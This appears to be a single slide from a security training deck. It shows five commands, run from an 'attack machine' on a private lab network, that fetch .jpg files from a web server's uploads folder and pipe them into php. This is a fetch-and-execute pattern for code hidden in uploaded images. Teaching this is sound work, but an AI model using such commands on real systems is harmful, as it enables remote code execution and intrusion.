

# On the attack machine (192.168.1.205) type:
curl http://192.168.1.206/uploads/CCIS-1.jpg |php
curl http://192.168.1.206/uploads/CCIS-2.jpg |php
curl http://192.168.1.206/uploads/CCIS-3.jpg |php
curl http://192.168.1.206/uploads/CCIS-4.jpg |php
curl http://192.168.1.206/uploads/CCIS-5.jpg |php
24